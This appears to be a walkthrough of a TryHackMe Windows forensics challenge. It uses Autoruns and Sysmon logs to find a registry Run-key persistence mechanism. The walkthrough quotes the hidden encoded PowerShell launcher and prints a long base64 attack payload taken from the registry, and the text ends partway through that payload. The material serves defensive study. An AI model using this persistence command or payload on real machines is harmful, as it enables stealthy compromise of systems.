# Investigating Windows 3.x

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Medium
Tags: Windows
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Free
Description:
Find the artifacts resident on the endpoint and sift through captured data to determine 
what type attack occurred on the endpoint.
```

Room link: [https://tryhackme.com/room/investigatingwindows3](https://tryhackme.com/room/investigatingwindows3)

## Solution

**Note**: In order to answer the questions in this challenge you should have completed the following rooms:

- [Core Windows Processes](http://tryhackme.com/jr/btwindowsinternals)
- [Windows Event Logs](https://tryhackme.com/room/windowseventlogs)
- [Sysinternals](http://tryhackme.com/jr/btsysinternalssg)
- [Sysmon](https://tryhackme.com/room/sysmon)
- [Yara](https://tryhackme.com/room/yara)
- [MITRE](https://tryhackme.com/room/mitre)

---------------------------------------------------------------------------------------

### Connect to the machine with RDP

Connect to the machine using RDP.

The credentials of the machine are as follows:

- **Username**: `Administrator`
- **Password**: `blueT3aming!`

Your machine's IP is: `10.64.143.3`

If you're using **Remmina** to RDP, set the **Color Depth** to `RemoteFX (32 bpp)`.

**Note**: This machine does not respond to ping (ICMP) and may take a few minutes to boot up.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Investigating_Windows_3.x]
└─$ export TARGET_IP=10.64.143.3       

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Investigating_Windows_3.x]
└─$ xfreerdp /v:$TARGET_IP /cert:ignore /u:Administrator /p:'blueT3aming!' /h:1024 /w:1500 +clipboard 
[09:28:51:656] [6737:6738] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[09:28:51:656] [6737:6738] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[09:28:52:887] [6737:6738] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
<---snip--->
```

---------------------------------------------------------------------------------------

After connecting we open both an **elevated** command prompt (cmd.exe) window and an **elevated** PowerShell window.

On the Desktop the following pieces of evidence are present:

```bat
C:\Users\Administrator> cd Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 78DA-BDAD

 Directory of C:\Users\Administrator\Desktop

01/21/2021  05:23 PM    <DIR>          .
01/21/2021  05:23 PM    <DIR>          ..
01/21/2021  05:20 PM       126,478,767 Logfile.PML
01/22/2021  05:45 AM         7,376,580 WIN-Q5JJRDM876J.arn
               2 File(s)    133,855,347 bytes
               2 Dir(s)   9,546,457,088 bytes free

C:\Users\Administrator\Desktop>
```

- The `Logfile.PML` is a log file from **Process Monitor**
- The `WIN-Q5JJRDM876J.arn` is a log file **from Autoruns**

In addition, there are **PowerShell Transcript log files** available in the Administrator's Documents folder:

```bat
C:\Users\Administrator> cd Documents

C:\Users\Administrator\Documents> cd 20210121

C:\Users\Administrator\Documents\20210121> dir
 Volume in drive C has no label.
 Volume Serial Number is 78DA-BDAD

 Directory of C:\Users\Administrator\Documents\20210121

01/21/2021  05:07 PM    <DIR>          .
01/21/2021  05:07 PM    <DIR>          ..
01/21/2021  05:07 PM             2,513 PowerShell_transcript.WIN-Q5JJRDM876J.1oX40WR+.20210121170706.txt
01/21/2021  05:04 PM               633 PowerShell_transcript.WIN-Q5JJRDM876J.2SKS7+3T.20210121170436.txt
01/21/2021  05:07 PM           542,264 PowerShell_transcript.WIN-Q5JJRDM876J.4gT0mU2Z.20210121170546.txt
01/21/2021  11:41 AM             1,348 PowerShell_transcript.WIN-Q5JJRDM876J.RUSfBlKZ.20210121114019.txt
               4 File(s)        546,758 bytes
               2 Dir(s)   9,576,394,752 bytes free

C:\Users\Administrator\Documents\20210121>
```

These log files contains all PowerShell execution including **decoded payloads**!

### What is the registry key with the encoded payload? (full path)

We can find the answer in the **Autoruns** log file (`WIN-Q5JJRDM876J.arn`) under the `Logon` tab:



or by opening the Sysmon Operational log in **Event Viewer** under `Applications and Services Logs` -> `Microsoft` -> `Windows` -> `Sysmon` -> `Operational`.

Filter for event ID 13, RegistryEvent (Value Set), and search for `Updater`

```text
Registry value set:
RuleName: technique_id=T1547.001,technique_name=Registry Run Keys / Start Folder
EventType: SetValue
UtcTime: 2021-01-22 01:08:13.468
ProcessGuid: {786593ca-776d-6009-4b00-000000000300}
ProcessId: 2684
Image: C:\Windows\Explorer.EXE
TargetObject: HKU\S-1-5-21-1022688529-3069809663-3800007983-500\Software\Microsoft\Windows\CurrentVersion\Run\Updater
Details: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"
```

Answer: `HKCU\Software\Microsoft\Windows\CurrentVersion\Debug`

### What is the rule name for this run key generated by Sysmon?

See the Sysmon event above (`RuleName: technique_id=T1547.001,technique_name=Registry Run Keys / Start Folder`).

Answer: `T1547.001`

### What tactics is classified with this MITRE ATT&CK ID?

See [Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/).

Answer: `Persistence, Privilege Escalation`

### What was UTC time for the Sysmon event?

See the Sysmon event above (`UtcTime: 2021-01-22 01:08:13.468`).

Answer: `2021-01-22 01:08:13.468`

### What was the Sysmon Event ID? Event Type? (answer, answer)

See the Sysmon event above (`EventType: SetValue`).

Answer: `13, SetValue`

### Decode the payload. What service will the payload attempt start?

We can fetch the registry content with `reg query`

```bat
C:\Users\Administrator\Desktop> reg QUERY HKCU\Software\Microsoft\Windows\CurrentVersion /v Debug

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion
    Debug    REG_SZ    cwBjAC4AZQB4AGUAIABzAHQAYQByAHQAIABGAGEAeAA7ACQARgBUAFAAUwBlAHIAdgBlAHIAIAA9ACAAIgBsAG8AYwBhAGwAaABvAHMAdAAiADsAJABGAFQAUABQAG8AcgB0ACAAPQAgACIAOQAyADkAOQAiADsAJAB0AGMAcABDAG8AbgBuAGUAYwB0AGkAbwBuACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAYwBwAEMAbABpAGUAbgB0ACgAJABGAFQAUABTAGUAcgB2AGUAcgAsACAAJABGAFQAUABQAG8AcgB0ACkAOwAkAHQAYwBwAFMAdAByAGUAYQBtACAAPQAgACQAdABjAHAAQwBvAG4AbgBlAGMAdABpAG8AbgAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7ACQAcgBlAGEAZABlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAKAAkAHQAYwBwAFMAdAByAGUAYQBtACkAOwAkAHcAcgBpAHQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByACgAJAB0AGMAcABTAHQAcgBlAGEAbQApADsAJAB3AHIAaQB0AGUAcgAuAEEAdQB0AG8ARgBsAHUAcwBoACAAPQAgACQAdAByAHUAZQA7ACQAYwBvAG0AbQBhAG4AZABzACAAPQAgAEAAKAAgACIARABRAEEAPQAiACwAJwBhAHcAQgBwAEEARwB3AEEAYgBBAEEAZwBBAEMAZwBBAFIAdwBCAGwAQQBIAFEAQQBMAFEAQgBRAEEASABJAEEAYgB3AEIAagBBAEcAVQBBAGMAdwBCAHoAQQBDAEEAQQBSAGcAQgBZAEEARgBNAEEAVQB3AEIAVwBBAEUATQBBAEsAUQBBAHUAQQBFAGsAQQBaAEEAQQBnAEEAQwAwAEEAWgBnAEIAdgBBAEgASQBBAFkAdwBCAGwAQQBEAHMAQQBJAEEAQgBTAEEARwBVAEEAYgBRAEIAdgBBAEgAWQBBAFoAUQBBAHQAQQBFAGsAQQBkAEEAQgBsAEEARwAwAEEASQBBAEEAdABBAEgAQQBBAFkAUQBCADAAQQBHAGcAQQBJAEEAQQBnAEEAQwBjAEEAUQB3AEEANgBBAEYAdwBBAFYAdwBCAHAAQQBHADQAQQBaAEEAQgB2AEEASABjAEEAYwB3AEIAYwBBAEYATQBBAGUAUQBCAHoAQQBIAFEAQQBaAFEAQgB0AEEARABNAEEATQBnAEIAYwBBAEgAVQBBAFkAUQBCAHMAQQBHAEUAQQBjAEEAQgBwAEEAQwA0AEEAWgBBAEIAcwBBAEcAdwBBAEoAdwBBADcAQQBFAGsAQQBSAGcAQQBvAEEAQwBRAEEAVQBBAEIAVABBAEYAWQBBAFIAUQBCAHkAQQBGAE0AQQBTAFEAQgBQAEEARQA0AEEAVgBBAEIAQgBBAEUASQBBAGIAQQBCAEYAQQBDADQAQQBVAEEAQgBUAEEARgBZAEEAUgBRAEIAeQBBAEgATQBBAFMAUQBCAHYAQQBFADQAQQBMAGcAQgBOAEEARQBFAEEAUwBnAEIAUABBAEgASQBBAEkAQQBBAHQAQQBFAGMAQQBSAFEAQQBnAEEARABNAEEASwBRAEIANwBBAEMAUQBBAFoAZwBCAG0AQQBHAFkAQQBOAGcAQQA5AEEARgBzAEEAYwBnAEIAbABBAEcAWQBBAFgAUQBBAHUAQQBFAEUAQQBVAHcAQgB6AEEARwBVAEEAYgBRAEIAQwBBAEUAdwBBAGUAUQBBAHUAQQBFAGMAQQBaAFEAQgAwAEEARgBRAEEAZQBRAEIAdwBBAEUAVQBBAEsAQQBBAG4AQQBGAE0AQQBlAFEAQgB6AEEASABRAEEAWgBRAEIAdABBAEMANABBAFQAUQBCAGgAQQBHADQAQQBZAFEAQgBuAEEARwBVAEEAYgBRAEIAbABBAEcANABBAGQAQQBBAHUAQQBFAEUAQQBkAFEAQgAwAEEARwA4AEEAYgBRAEIAaABBAEgAUQBBAGEAUQBCAHYAQQBHADQAQQBMAGcAQgBWAEEASABRAEEAYQBRAEIAcwBBAEgATQBBAEoAdwBBAHAAQQBDADQAQQBJAGcAQgBIAEEARwBVAEEAZABBAEIARwBBAEcAawBBAFoAUQBCAGcAQQBHAHcAQQBaAEEAQQBpAEEAQwBnAEEASgB3AEIAagBBAEcARQBBAFkAdwBCAG8AQQBHAFUAQQBaAEEAQgBIAEEASABJAEEAYgB3AEIAMQBBAEgAQQBBAFUAQQBCAHYAQQBHAHcAQQBhAFEAQgBqAEEASABrAEEAVQB3AEIAbABBAEgAUQBBAGQAQQBCAHAAQQBHADQAQQBaAHcAQgB6AEEAQwBjAEEATABBAEEAbgBBAEUANABBAEoAdwBBAHIAQQBDAGMAQQBiAHcAQgB1AEEARgBBAEEAZABRAEIAaQBBAEcAdwBBAGEAUQBCAGoAQQBDAHcAQQBVAHcAQgAwAEEARwBFAEEAZABBAEIAcABBAEcATQBBAEoAdwBBAHAAQQBEAHMAQQBTAFEAQgBtAEEAQwBnAEEASgBBAEIAbQBBAEcAWQBBAFIAZwBBADIAQQBDAGsAQQBlAHcAQQBrAEEARQBJAEEATwBRAEIAQwBBAEUAVQBBAFAAUQBBAGsAQQBHAFkAQQBSAGcAQgBtAEEARABZAEEATABnAEIASABBAEUAVQBBAFYAQQBCAFcAQQBHAEUAQQBiAEEAQgBWAEEARwBVAEEASwBBAEEAawBBAEUANABBAFYAUQBCAE0AQQBFAHcAQQBLAFEAQQA3AEEARQBrAEEAWgBnAEEAbwBBAEMAUQBBAFEAZwBBADUAQQBHAEkAQQBSAFEAQgBiAEEAQwBjAEEAVQB3AEIAagBBAEgASQBBAGEAUQBCAHcAQQBIAFEAQQBRAGcAQQBuAEEAQwBzAEEASgB3AEIAcwBBAEcAOABBAFkAdwBCAHIAQQBFAHcAQQBiAHcAQgBuAEEARwBjAEEAYQBRAEIAdQBBAEcAYwBBAEoAdwBCAGQAQQBDAGsAQQBlAHcAQQBrAEEARQBJAEEATwBRAEIAQwBBAEcAVQBBAFcAdwBBAG4AQQBGAE0AQQBZAHcAQgB5AEEARwBrAEEAYwBBAEIAMABBAEUASQBBAEoAdwBBAHIAQQBDAGMAQQBiAEEAQgB2AEEARwBNAEEAYQB3AEIATQBBAEcAOABBAFoAdwBCAG4AQQBHAGsAQQBiAGcAQgBuAEEAQwBjAEEAWABRAEIAYgBBAEMAYwBBAFIAUQBCAHUAQQBHAEUAQQBZAGcAQgBzAEEARwBVAEEAVQB3AEIAagBBAEgASQBBAGEAUQBCAHcAQQBIAFEAQQBRAGcAQQBuAEEAQwBzAEEASgB3AEIAcwBBAEcAOABBAFkAdwBCAHIAQQBFAHcAQQBiAHcAQgBuAEEARwBjAEEAYQBRAEIAdQBBAEcAYwBBAEoAdwBCAGQAQQBEADAAQQBNAEEAQQA3AEEAQwBRAEEAWQBnAEEANQBBAEUASQBBAFoAUQBCAGIAQQBDAGMAQQBVAHcAQgBqAEEASABJAEEAYQBRAEIAdwBBAEgAUQBBAFEAZwBBAG4AQQBDAHMAQQBKAHcAQgBzAEEARwA4AEEAWQB3AEIAcgBBAEUAdwBBAGIAdwBCAG4AQQBHAGMAQQBhAFEAQgB1AEEARwBjAEEASgB3AEIAZABBAEYAcwBBAEoAdwBCAEYAQQBHADQAQQBZAFEAQgBpAEEARwB3AEEAWgBRAEIAVABBAEcATQBBAGMAZwBCAHAAQQBIAEEAQQBkAEEAQgBDAEEARwB3AEEAYgB3AEIAagBBAEcAcwBBAFMAUQBCAHUAQQBIAFkAQQBiAHcAQgBqAEEARwBFAEEAZABBAEIAcABBAEcAOABBAGIAZwBCAE0AQQBHADgAQQBaAHcAQgBuAEEARwBrAEEAYgBnAEIAbgBBAEMAYwBBAFgAUQBBADkAQQBEAEEAQQBmAFEAQQBrAEEASABZAEEAUQBRAEIAcwBBAEQAMABBAFcAdwBCAEQAQQBFADgAQQBUAEEAQgBzAEEARQBVAEEAUQB3AEIAMABBAEcAawBBAFQAdwBCAHUAQQBGAE0AQQBMAGcAQgBIAEEARQBVAEEAYgBnAEIARgBBAEgASQBBAFMAUQBCAGoAQQBDADQAQQBSAEEAQgBKAEEARwBNAEEAVgBBAEIASgBBAEcAOABBAFQAZwBCAEIAQQBGAEkAQQBlAFEAQgBiAEEARgBNAEEAVgBBAEIAeQBBAEcAawBBAGIAZwBCAEgAQQBDAHcAQQBVAHcAQgA1AEEARgBNAEEAZABBAEIARgBBAEUAMABBAEwAZwBCAFAAQQBFAEkAQQBhAGcAQgBsAEEARwBNAEEAVgBBAEIAZABBAEYAMABBAE8AZwBBADYAQQBHADQAQQBSAFEAQgAzAEEAQwBnAEEASwBRAEEANwBBAEMAUQBBAFYAZwBCAGgAQQBHAHcAQQBMAGcAQgBCAEEARQBRAEEAUgBBAEEAbwBBAEMAYwBBAFIAUQBCAHUAQQBHAEUAQQBZAGcAQgBzAEEARwBVAEEAVQB3AEIAagBBAEgASQBBAGEAUQBCAHcAQQBIAFEAQQBRAGcAQQBuAEEAQwBzAEEASgB3AEIAcwBBAEcAOABBAFkAdwBCAHIAQQBFAHcAQQBiAHcAQgBuAEEARwBjAEEAYQBRAEIAdQBBAEcAYwBBAEoAdwBBAHMAQQBEAEEAQQBLAFEAQQA3AEEAQwBRAEEAVgBnAEIAQgBBAEUAdwBBAEwAZwBCAEIAQQBFAFEAQQBaAEEAQQBvAEEAQwBjAEEAUgBRAEIAdQBBAEcARQBBAFkAZwBCAHMAQQBHAFUAQQBVAHcAQgBqAEEASABJAEEAYQBRAEIAdwBBAEgAUQBBAFEAZwBCAHMAQQBHADgAQQBZAHcAQgByAEEARQBrAEEAYgBnAEIAMgBBAEcAOABBAFkAdwBCAGgAQQBIAFEAQQBhAFEAQgB2AEEARwA0AEEAVABBAEIAdgBBAEcAYwBBAFoAdwBCAHAAQQBHADQAQQBaAHcAQQBuAEEAQwB3AEEATQBBAEEAcABBAEQAcwBBAEoAQQBCAGkAQQBEAGsAQQBZAGcAQgBGAEEARgBzAEEASgB3AEIASQBBAEUAcwBBAFIAUQBCAFoAQQBGADgAQQBUAEEAQgBQAEEARQBNAEEAUQBRAEIATQBBAEYAOABBAFQAUQBCAEIAQQBFAE0AQQBTAEEAQgBKAEEARQA0AEEAUgBRAEIAYwBBAEYATQBBAGIAdwBCAG0AQQBIAFEAQQBkAHcAQgBoAEEASABJAEEAWgBRAEIAYwBBAEYAQQBBAGIAdwBCAHMAQQBHAGsAQQBZAHcAQgBwAEEARwBVAEEAYwB3AEIAYwBBAEUAMABBAGEAUQBCAGoAQQBIAEkAQQBiAHcAQgB6AEEARwA4AEEAWgBnAEIAMABBAEYAdwBBAFYAdwBCAHAAQQBHADQAQQBaAEEAQgB2AEEASABjAEEAYwB3AEIAYwBBAEYAQQBBAGIAdwBCADMAQQBHAFUAQQBjAGcAQgBUAEEARwBnAEEAWgBRAEIAcwBBAEcAdwBBAFgAQQBCAFQAQQBHAE0AQQBjAGcAQgBwAEEASABBAEEAZABBAEIAQwBBAEMAYwBBAEsAdwBBAG4AQQBHAHcAQQBiAHcAQgBqAEEARwBzAEEAVABBAEIAdgBBAEcAYwBBAFoAdwBCAHAAQQBHADQAQQBaAHcAQQBuAEEARgAwAEEAUABRAEEAawBBAEYAWQBBAFEAUQBCAHMAQQBIADAAQQBSAFEAQgBzAEEARgBNAEEAUgBRAEIANwBBAEYAcwBBAFUAdwBCAEQAQQBGAEkAQQBhAFEAQgB3AEEARgBRAEEAUQBnAEIAcwBBAEcAOABBAFkAdwBCAHIAQQBGADAAQQBMAGcAQQBpAEEARQBjAEEAWgBRAEIAVQBBAEUAWQBBAGEAUQBCAGwAQQBHAEEAQQBiAEEAQgBrAEEAQwBJAEEASwBBAEEAbgBBAEgATQBBAGEAUQBCAG4AQQBHADQAQQBZAFEAQgAwAEEASABVAEEAYwBnAEIAbABBAEgATQBBAEoAdwBBAHMAQQBDAGMAQQBUAGcAQQBuAEEAQwBzAEEASgB3AEIAdgBBAEcANABBAFUAQQBCADEAQQBHAEkAQQBiAEEAQgBwAEEARwBNAEEATABBAEIAVABBAEgAUQBBAFkAUQBCADAAQQBHAGsAQQBZAHcAQQBuAEEAQwBrAEEATABnAEIAVABBAEUAVQBBAFYAQQBCAFcAQQBHAEUAQQBUAEEAQgAxAEEARwBVAEEASwBBAEEAawBBAEcANABBAFYAUQBCAE0AQQBHAHcAQQBMAEEAQQBvAEEARQA0AEEAWgBRAEIAMwBBAEMAMABBAFQAdwBCAEMAQQBHAG8AQQBSAFEAQgBEAEEASABRAEEASQBBAEIARABBAEUAOABBAFQAQQBCAHMAQQBHAFUAQQBZAHcAQgAwAEEARQBrAEEAYgB3AEIATwBBAEgATQBBAEwAZwBCAEgAQQBFAFUAQQBiAGcAQgBsAEEASABJAEEAUwBRAEIARABBAEMANABBAFMAQQBCAGgAQQBGAE0AQQBTAEEAQgBUAEEARwBVAEEAVgBBAEIAYgBBAEgATQBBAFYAQQBCAHkAQQBFAGsAQQBiAGcAQgBuAEEARgAwAEEASwBRAEEAcABBAEgAMABBAEoAQQBCAFMAQQBHAFUAQQBaAGcAQQA5AEEARgBzAEEAVQBnAEIAbABBAEcAWQBBAFgAUQBBAHUAQQBFAEUAQQBVAHcAQgBUAEEARQBVAEEAYgBRAEIAaQBBAEcAdwBBAGUAUQBBAHUAQQBFAGMAQQBaAFEAQgBVAEEARgBRAEEAZQBRAEIAdwBBAEcAVQBBAEsAQQBBAG4AQQBGAE0AQQBlAFEAQgB6AEEASABRAEEAWgBRAEIAdABBAEMANABBAFQAUQBCAGgAQQBHADQAQQBZAFEAQgBuAEEARwBVAEEAYgBRAEIAbABBAEcANABBAGQAQQBBAHUAQQBFAEUAQQBkAFEAQgAwAEEARwA4AEEAYgBRAEIAaABBAEgAUQBBAGEAUQBCAHYAQQBHADQAQQBMAGcAQgBCAEEARwAwAEEAYwB3AEIAcABBAEMAYwBBAEsAdwBBAG4AQQBGAFUAQQBkAEEAQgBwAEEARwB3AEEAYwB3AEEAbgBBAEMAawBBAE8AdwBBAGsAQQBGAEkAQQBSAFEAQgBtAEEAQwA0AEEAUgB3AEIARgBBAEgAUQBBAFIAZwBCAEoAQQBFAFUAQQBUAEEAQgBFAEEAQwBnAEEASgB3AEIAaABBAEcAMABBAGMAdwBCAHAAQQBFAGsAQQBiAGcAQgBwAEEASABRAEEAUgBnAEEAbgBBAEMAcwBBAEoAdwBCAGgAQQBHAGsAQQBiAEEAQgBsAEEARwBRAEEASgB3AEEAcwBBAEMAYwBBAFQAZwBCAHYAQQBHADQAQQBVAEEAQgAxAEEARwBJAEEAYgBBAEIAcABBAEcATQBBAEwAQQBCAFQAQQBIAFEAQQBZAFEAQgAwAEEARwBrAEEAWQB3AEEAbgBBAEMAawBBAEwAZwBCAFQAQQBHAFUAQQBkAEEAQgBXAEEARwBFAEEAVABBAEIAVgBBAEUAVQBBAEsAQQBBAGsAQQBHADQAQQBkAFEAQgBNAEEARwB3AEEATABBAEEAawBBAEYAUQBBAGMAZwBCADEAQQBFAFUAQQBLAFEAQQA3AEEASAAwAEEATwB3AEIAYgBBAEYATQBBAGUAUQBCAHoAQQBIAFEAQQBSAFEAQgB0AEEAQwA0AEEAVABnAEIARgBBAEYAUQBBAEwAZwBCAFQAQQBFAFUAQQBjAGcAQgBXAEEARQBrAEEAUQB3AEIARgBBAEYAQQBBAGIAdwBCAEoAQQBHADQAQQBkAEEAQgBOAEEARQBFAEEAYgBnAEIAQgBBAEcAYwBBAFoAUQBCAFMAQQBGADAAQQBPAGcAQQA2AEEARQBVAEEAZQBBAEIAUQBBAEUAVQBBAFkAdwBCAFUAQQBEAEUAQQBNAEEAQQB3AEEARQBNAEEAVAB3AEIAdQBBAEYAUQBBAFMAUQBCAHUAQQBIAFUAQQBaAFEAQQA5AEEARABBAEEATwB3AEEAawBBAEQASQBBAE4AdwBCAEQAQQBFAFUAQQBQAFEAQgBPAEEARwBVAEEAVgB3AEEAdABBAEUAOABBAFEAZwBCAEsAQQBFAFUAQQBZAHcAQgAwAEEAQwBBAEEAVQB3AEIAWgBBAEgATQBBAFYAQQBCAEYAQQBHADAAQQBMAGcAQgBPAEEARQBVAEEAZABBAEEAdQBBAEYAYwBBAFIAUQBCAEMAQQBFAE0AQQBiAEEAQgBKAEEARwBVAEEAVABnAEIAVQBBAEQAcwBBAEoAQQBCADEAQQBEADAAQQBKAHcAQgBOAEEARwA4AEEAZQBnAEIAcABBAEcAdwBBAGIAQQBCAGgAQQBDADgAQQBOAFEAQQB1AEEARABBAEEASQBBAEEAbwBBAEYAYwBBAGEAUQBCAHUAQQBHAFEAQQBiAHcAQgAzAEEASABNAEEASQBBAEIATwBBAEYAUQBBAEkAQQBBADIAQQBDADQAQQBNAFEAQQA3AEEAQwBBAEEAVgB3AEIAUABBAEYAYwBBAE4AZwBBADAAQQBEAHMAQQBJAEEAQgBVAEEASABJAEEAYQBRAEIAawBBAEcAVQBBAGIAZwBCADAAQQBDADgAQQBOAHcAQQB1AEEARABBAEEATwB3AEEAZwBBAEgASQBBAGQAZwBBADYAQQBEAEUAQQBNAFEAQQB1AEEARABBAEEASwBRAEEAZwBBAEcAdwBBAGEAUQBCAHIAQQBHAFUAQQBJAEEAQgBIAEEARwBVAEEAWQB3AEIAcgBBAEcAOABBAEoAdwBBADcAQQBDAFEAQQBjAHcAQgBsAEEASABJAEEAUABRAEEAawBBAEMAZwBBAFcAdwBCAFUAQQBFAFUAQQBlAEEAQgAwAEEAQwA0AEEAUgBRAEIATwBBAEUATQBBAGIAdwBCAEUAQQBHAGsAQQBUAGcAQgBuAEEARgAwAEEATwBnAEEANgBBAEYAVQBBAFQAZwBCAHAAQQBFAE0AQQBiAHcAQgBFAEEARwBVAEEATABnAEIASABBAEUAVQBBAFYAQQBCAFQAQQBIAFEAQQBjAGcAQgBwAEEARwA0AEEAWgB3AEEAbwBBAEYAcwBBAFEAdwBCAFAAQQBHADQAQQBWAGcAQgBsAEEARgBJAEEAZABBAEIAZABBAEQAbwBBAE8AZwBCAEcAQQBIAEkAQQBUAHcAQgBOAEEARQBJAEEAUQBRAEIAegBBAEUAVQBBAE4AZwBBADAAQQBGAE0AQQBWAEEAQgB5AEEARQBrAEEAVABnAEIAbgBBAEMAZwBBAEoAdwBCAGgAQQBFAEUAQQBRAGcAQQB3AEEARQBFAEEAUwBBAEIAUgBBAEUARQBBAFkAdwBCAEIAQQBFAEUAQQBOAGcAQgBCAEEARQBNAEEATwBBAEIAQgBBAEUAdwBBAGQAdwBCAEIAQQBIAG8AQQBRAFEAQgBFAEEARgBFAEEAUQBRAEIATQBBAEcAYwBBAFEAUQBCADUAQQBFAEUAQQBSAEEAQgBSAEEARQBFAEEAVABnAEIAUgBBAEUARQBBAGQAUQBCAEIAQQBFAFEAQQBSAFEAQgBCAEEARQAwAEEAWgB3AEIAQgBBAEQAUQBBAFEAUQBCAEQAQQBEAFEAQQBRAFEAQgBOAEEARgBFAEEAUQBRAEEAeQBBAEUARQBBAFIAQQBCAEYAQQBFAEUAQQBUAHcAQgBuAEEARQBFAEEATgBRAEIAQgBBAEUAUQBBAFEAUQBCAEIAQQBFADAAQQBRAFEAQgBCAEEASABnAEEAUQBRAEIAQgBBAEQAMABBAFAAUQBBAG4AQQBDAGsAQQBLAFEAQQBwAEEARABzAEEASgBBAEIAMABBAEQAMABBAEoAdwBBAHYAQQBHAEUAQQBaAEEAQgB0AEEARwBrAEEAYgBnAEEAdgBBAEcAYwBBAFoAUQBCADAAQQBDADQAQQBjAEEAQgBvAEEASABBAEEASgB3AEEANwBBAEMAUQBBAE0AZwBBADMAQQBFAE0AQQBSAFEAQQB1AEEARQBnAEEAWgBRAEIAaABBAEcAUQBBAFIAUQBCAHkAQQBIAE0AQQBMAGcAQgBCAEEARQBRAEEAUgBBAEEAbwBBAEMAYwBBAFYAUQBCAHoAQQBHAFUAQQBjAGcAQQB0AEEARQBFAEEAWgB3AEIAbABBAEcANABBAGQAQQBBAG4AQQBDAHcAQQBKAEEAQgAxAEEAQwBrAEEATwB3AEEAawBBAEQASQBBAE4AdwBCAEQAQQBHAFUAQQBMAGcAQgBRAEEASABJAEEAVAB3AEIANABBAEYAawBBAFAAUQBCAGIAQQBGAE0AQQBlAFEAQgBUAEEARgBRAEEAUgBRAEIAdABBAEMANABBAFQAZwBCAEYAQQBGAFEAQQBMAGcAQgBYAEEARQBVAEEAUQBnAEIAUwBBAEUAVQBBAGMAUQBCAFYAQQBHAFUAQQBjAHcAQgBVAEEARgAwAEEATwBnAEEANgBBAEUAUQBBAFoAUQBCAG0AQQBFAEUAQQBWAFEAQgBzAEEASABRAEEAVgB3AEIARgBBAEUASQBBAFUAQQBCAFMAQQBFADgAQQBXAEEAQgBaAEEARABzAEEASgBBAEEAeQBBAEQAYwBBAFkAdwBCAGwAQQBDADQAQQBVAEEAQgBTAEEARQA4AEEAVwBBAEIANQBBAEMANABBAFEAdwBCAHkAQQBFAFUAQQBSAEEAQgBGAEEARQA0AEEAVgBBAEIASgBBAEcARQBBAGIAQQBCAHoAQQBDAEEAQQBQAFEAQQBnAEEARgBzAEEAVQB3AEIANQBBAEYATQBBAGQAQQBCAGwAQQBHADAAQQBMAGcAQgBPAEEARQBVAEEAZABBAEEAdQBBAEUATQBBAFUAZwBCAEYAQQBHAFEAQQBSAFEAQgB1AEEARgBRAEEAYQBRAEIAQgBBAEcAdwBBAFEAdwBCAEIAQQBFAE0AQQBhAEEAQgBGAEEARgAwAEEATwBnAEEANgBBAEUAUQBBAFIAUQBCAEcAQQBFAEUAQQBWAFEAQgBNAEEARgBRAEEAVABnAEIAbABBAEYAUQBBAGQAdwBCAHYAQQBGAEkAQQBTAHcAQgBEAEEASABJAEEAUgBRAEIAawBBAEcAVQBBAGIAZwBCAFUAQQBHAGsAQQBRAFEAQgBNAEEARgBNAEEATwB3AEEAawBBAEYATQBBAFkAdwBCAHkAQQBHAGsAQQBjAEEAQgAwAEEARABvAEEAVQBBAEIAeQBBAEcAOABBAGUAQQBCADUAQQBDAEEAQQBQAFEAQQBnAEEAQwBRAEEATQBnAEEAMwBBAEcATQBBAFoAUQBBAHUAQQBGAEEAQQBjAGcAQgB2AEEASABnAEEAZQBRAEEANwBBAEMAUQBBAFMAdwBBADkAQQBGAHMAQQBVAHcAQgA1AEEASABNAEEAZABBAEIARgBBAEcAMABBAEwAZwBCAFUAQQBHAFUAQQBXAEEAQgBVAEEAQwA0AEEAUgBRAEIAdQBBAEUATQBBAGIAdwBCAEUAQQBHAGsAQQBUAGcAQgBuAEEARgAwAEEATwBnAEEANgBBAEUARQBBAFUAdwBCAEQAQQBFAGsAQQBTAFEAQQB1AEEARQBjAEEAWgBRAEIAVQBBAEUASQBBAFcAUQBCAFUAQQBHAFUAQQBjAHcAQQBvAEEAQwBjAEEAWQBRAEIAMwBBAEYAZwBBAFYAUQBCAEUAQQBHAHMA